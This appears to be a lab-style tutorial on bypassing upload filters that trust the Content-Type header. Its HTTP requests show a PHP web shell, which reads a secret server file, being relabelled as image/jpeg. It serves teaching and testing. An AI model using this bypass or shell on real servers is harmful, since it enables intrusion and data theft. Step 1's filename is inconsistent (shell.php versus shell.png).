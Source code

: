 ## Content-Type Bypass
When submitting HTML forms, the browser typically sends the provided data in `POST` HTTP request with the `Content-Type` value of `application/x-www-form-url-encoded`. Most of the time this works, however it isn't suitable for sending large amounts of binary data, such as an image or PDF file. In this case the `multipart/form-data` is more suitable.

Consider a form containing fields for uploading an image, providing a description of it, and entering your username. Submitting the form will result in a request like this:
```http
POST /images HTTP/1.1
Host: normal-website.com
Content-Length: 12345
Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="image"; filename="example.jpg"
Content-Type: image/jpeg

[...binary content of example.jpg...]

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="description"

This is an interesting description of my image.
```
Notice that the message body is split into separate parts for each of the form's inputs, where each part contains `Content-Disposition` header that provides basic information about the input field it relates to. These parts may also contain `Content-Type` header, which tells the server the MIME type of the data being submitted.

However, using `Content-Type` filtering alone isn't secure at all, specially if the server implicitly trusts the value of this header, as this can be bypassed entirely:
1. Using Burp Proxy, intercept the request. Observe that the `Content-Type` is set to `text/x-php` and `filename` parameter to `shell.php`
 ```http
POST /images HTTP/1.1
Host: normal-website.com
Content-Length: 12345
Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="image"; filename="shell.png"
Content-Type: text/x-php

<?php echo file_get_contents('/home/carlos/secret'); ?>
```
2. Modify the contents of `Content-Type` to `image/jpeg` and `filename` to `shell.jpg` then click **Forward**.
```http
POST /images HTTP/1.1
Host: normal-website.com
Content-Length: 12345
Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="image"; filename="shell.jpg"
Content-Type: image/jpeg

<?php echo file_get_contents('/home/carlos/secret'); ?>
```
3. Notice that the application allowed the file to be uploaded, all an attacker have to do is open the uploaded file in the browser and the web shell will be activated